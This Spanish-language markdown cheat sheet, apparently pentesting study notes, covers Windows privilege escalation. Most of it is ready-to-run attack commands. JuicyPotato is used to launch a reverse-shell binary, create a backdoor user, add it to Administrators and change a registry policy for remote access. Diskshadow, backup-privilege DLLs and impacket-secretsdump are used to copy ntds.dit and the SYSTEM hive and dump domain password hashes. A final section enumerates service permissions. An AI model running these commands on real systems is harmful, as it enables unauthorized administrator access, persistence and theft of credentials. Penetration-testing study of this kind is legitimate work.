 ## Windows Privilege Escalation

Técnicas utilizadas para escalar privilegios en sistemas basados en Windows.

### Recursos

[Hacktricks - Windows Privesc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Payload All The Things - Windows Privesc Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Sushant Guide OSCP](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

[Another good guide](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows)


### Técnicas comúnes para escalar privilegios 


- [Abusing Tokens](#whoami-priv)
  - [SeImpersonatePrivilege](#SeImpersonatePrivilege)
  - [SeBackupPrivilege & SeRestorePrivilege](#SeBackupPrivilege-And-SeRestorePrivilege)
- [Privileged Groups](#whoami-groups)
- [Servicios Vulnerables](#Servicios-Vulnerables)

## whoami priv

[Hacktricks Guide](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

**Lista de Tokens de Acceso interesantes**

|Privilege|Privilege|
|--|--|
|**SeImpersonatePrivilege**|**SeAssignPrimaryPrivilege**|
|**SeTcbPrivilege**|**SeBackupPrivilege**|
|**SeRestorePrivilege**|**SeCreateTokenPrivilege**|
|**SeLoadDriverPrivilege**|**SeTakeOwnershipPrivilege**|
|**SeDebugPrivilege**||

### SeImpersonatePrivilege

#### Mediante una Reverse Shell

**Tool**: JuicyPotato.exe 
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c c:\windows\temp\rev.exe" -c <clsid> (optional)
```
#### Creando nuestro propio usuario
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net user chan chan123 /ADD"
```
**Agregándo nuestro usuario al grupo Local Administrators**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net localgroup Administrators chan /add" 
```
**Cambiando el registro LocalAccountTokenFilterPolicy para poder tener acceso remoto**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" 
```
 
### SeBackupPrivilege And SeRestorePrivilege

**Crear una lista de instrucciones que serán ejecutadas con Diskshadow (Herramienta de gestión de discos)**

```bash
SET CONTEXT PERSISTENT NOWRITERS#
add volume c: alias chan#
create#
expose %chan% z:#
```
**Lo subimos a nuestro target y ejecutamos**
```cmd
diskshadow /s fichero_instrucciones.txt
```

**Luego subimos e importamos dos Dlls que nos servirán para copiar archivos entre discos**

[Dlls utilizados](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

**Copiamos el ntds.dit (Base de datos que almacena hashes del AD)**
```powershell
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\temp\ntds.dit
```
**Guardamos la llave system del registro de windows**
```powershell
reg save HKLM/SYSTEM c:\temp\system
```
**Dumpeamos los hashes con impacket-secretsdump y voila**
```bash
impacket-secretsdump -ntds ndts.dit -system system -hashes lmhash:nthash LOCAL
```

## whoami groups

[Guía detallada](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges)

### Dns admins

***HTB Machine*** : **Resolute**


## Servicios Vulnerables

**Obtener lista de servicios**

```cmd
net start
wmic service list brief
sc query
Get-Service
```
**Obtener permisos del servicio**

```cmd
sc qc <service_name>
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
```

**Ver si Authenticated Users pueden modificar el servicio**

```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```

### Insecure Permissions daclsvc

**Usando accesschk.exe para verificar los permisos del usuario actual sobre un servicio en específico**
```cmd
.\accesschk.exe /accepteula -uwcqv <user> daclsvc
```





